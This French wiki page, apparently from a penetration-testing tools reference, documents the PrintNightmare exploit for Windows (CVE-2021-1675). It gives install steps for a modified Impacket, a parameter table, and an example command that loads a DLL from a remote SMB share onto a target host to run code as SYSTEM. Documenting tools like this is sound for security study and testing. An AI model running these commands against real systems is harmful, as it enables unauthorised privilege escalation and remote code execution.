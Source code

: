 ```yaml
---
title: PrintNightmare
description: Permet à n'importe quel utilisateur sans le privilège, d'ajouter des drivers d'impression à un système local ou distant, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.
published: true
date: 2024-08-23T14:57:38.073Z
tags: outil, windows
editor: markdown
dateCreated: 2024-08-23T14:57:38.073Z
---
```


# Introduction

PrintNightmare est un exploit qui utilise une faille dans la fonction RpcAddPrinterDriver, qui permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système local ou distant, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.

> La fonction RpcAddPrinterDriver permet aux utilisateurs avec le privilège SeLoadDriverPrivilege d'ajouter des drivers sur des spouleurs distants.
> {.is-info}

> PrintNightmare est disponible au téléchargement [ici](https://github.com/cube0x0/CVE-2021-1675)
> {.is-info}

# Installation

Cet exploit nécéssite une version de Impacket modifiée.

`pip3 uninstall impacket`
`git clone https://github.com/cube0x0/impacket`
`cd impacket`
`python3 ./setup.py install`

# Syntaxe

`CVE-2021-1675.py [[domaine/]utilisateur[:mot de passe]@]<nom ou adresse de la cible> <chemin du fichier DLL> [paramètres]`

# Paramètres

| Paramètre                    | Description                                                                       |
| ---------------------------- | --------------------------------------------------------------------------------- | -------------------------- |
| `-h                          | --help`                                                                           | Affiche le message d'aide. |
| `-hashes <LMHASH>:<NTHASH> ` | Spécifie les hashes NTLM pour l'authentification.                                 |
| `-target-ip [adresse]`       | Spécifie l'adresse de la cible (utile si le nom Netbios est utilisé comme cible). |
| `-port <port> `              | Spécifie le port de destination pour la connexion au serveur SMB.                 |

# Exemples

Ajoute le driver situé sur le partage SMB "\\192.168.1.2\smb\addCube.dll" sur le système 192.168.1.1 avec comme utilisateur domain.local/paul et mot de passe "t00r".
`CVE-2021-1675.py domain.local/paul:t00r@192.168.1.1 '\\192.168.1.2\smb\addCube.dll'`

# Voir aussi

Fonction RpcAddPrinterDriver:
https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22
